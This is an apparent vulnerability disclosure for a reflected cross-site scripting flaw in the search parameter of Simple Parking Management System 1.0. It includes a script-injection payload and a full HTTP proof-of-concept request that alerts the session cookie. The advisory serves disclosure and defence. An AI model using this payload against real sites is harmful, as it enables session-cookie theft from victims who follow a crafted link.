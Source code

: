 #### Title: Simple Parking Management System 1.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 10.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-simple-parking-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/d18ef36d0aa5eb650bbe7dc002bd82db13b1ed42/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Refelected)/POC.md


#### Description：
####  Simple Parking Management System is vulnerable to Reflected cross-site scripting on the search parameter.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`

### POC

```
GET /ci_spms/admin/search/searching/?search=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&find= HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=hrm5slo659sa0q687m87vufu1p0gcfcg
Connection: close
```

![image](https://github.com/CyberThoth/CVE/blob/d18ef36d0aa5eb650bbe7dc002bd82db13b1ed42/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Refelected)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/d18ef36d0aa5eb650bbe7dc002bd82db13b1ed42/CVE/Simple%20Parking%20Management%20System/Cross%20Site%20Scripting(Refelected)/2.png)
